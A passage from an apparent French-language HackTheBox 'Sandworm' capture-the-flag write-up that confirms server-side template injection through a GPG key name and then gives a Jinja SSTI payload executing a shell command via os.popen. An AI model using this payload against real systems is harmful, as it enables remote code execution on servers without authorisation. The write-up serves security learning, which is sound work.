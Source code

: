On récupère notre clé publique :
```
$ gpg --export -a "{{7*7}}"
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQGNBGVKWkwBDADpp03TjmB3KJ1v6ssnvRG/
....
-----END PGP PUBLIC KEY BLOCK-----
```

On obtient le résultat suivant, ce qui avère la préscence d'un SSTI.
<img src="/assets/images/WriteUps/HackTheBox/Sandworm/SSTIProoved.png" width="600px" height="300px" style="display: block; margin: 0 auto"/>


### Acces Initial
Un paylaod utilisé pour les SSTI de **jinja** est :
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

On crée une clé de la manière précédente, et le résultat est un succès :